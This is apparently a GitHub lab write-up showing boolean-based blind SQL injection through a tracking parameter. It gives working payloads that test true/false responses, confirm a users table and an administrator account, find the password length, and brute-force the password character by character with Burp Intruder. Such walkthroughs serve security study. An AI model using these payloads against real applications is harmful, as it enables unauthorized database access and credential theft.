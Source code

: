 Look for tracking id and welcome back response
Url encode this 

We get welcome back
```
' and 1=1--
``` 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/bec493f3-8e02-4d1e-8bc5-aeae8dc622c4)


We don't get welcome back
```
' and 1=0--
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c5dbae55-eac7-411e-a0ac-f28b68b0bca4)



Finding out if the users table exist. The value x is a arbitray it can be any letter 
```
and (select 'x' from users LIMIT 1)='x'--'
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3dec92fc-1e1b-4a3a-9baa-8227d64ed933)

Confirm that username administrator exists in users table since we got another welcome back
Will output welcome back if username administrator exist
```
and (select username from users where username='administrator')='administrator'--'
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/1d9cd0aa-727d-440a-b5be-0baa431b85c4)


Trying with user that does not exist
we did not get welcome back
```
and (select username from users where username='viet')='viet'--'
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8e71df5d-3892-4eff-8504-93e4f83c1f87)



enumerate password if it exist
ask if each character exist
does the password start with a,b,c....ETC

First we have to get the length of the password 
Query ask if password is bigger than 1 
```
and (select username from users where username='administrator' and length(password)>1) ='administrator'--'
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/0189c16d-b320-40bc-9845-8f7fdcb701ca)


Using intruder and payload set number on burpsuite we can increment the length of the password 50 
```
and (select username from users where username='administrator' and length(password)>1) ='administrator'--'
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/da89846c-ec96-4a04-ad0f-34cef2220b1d)


![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c92a6db8-306c-40f9-a058-3e6bab557d9f)

Welcome back/length stopped at 20  so the characters of the password is 20
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/9aabc4de-f597-4fd5-ba27-3bbb35ed86c0)


Enumerate password from 1 character to 20 character
```
and (select substring(password,1,1) from users where username='administrator')='a'--'
and (select substring(password,1,1) from users where username='administrator')='b'--'
etc
```
```
a no welcome back
b no wlecome back
``` 

We load onto intruder and select cluster bomb and select the following payload for our parameter 
Number (our length)
Bruteforcer (character to use for each length)
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/965339fa-e96e-4214-bc0f-a219ea9c710d)

our password is in the following. Where payload1 is the placement and payload2 is the character for that placement
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/93764f49-7af6-4305-8361-7eb9444df36d)

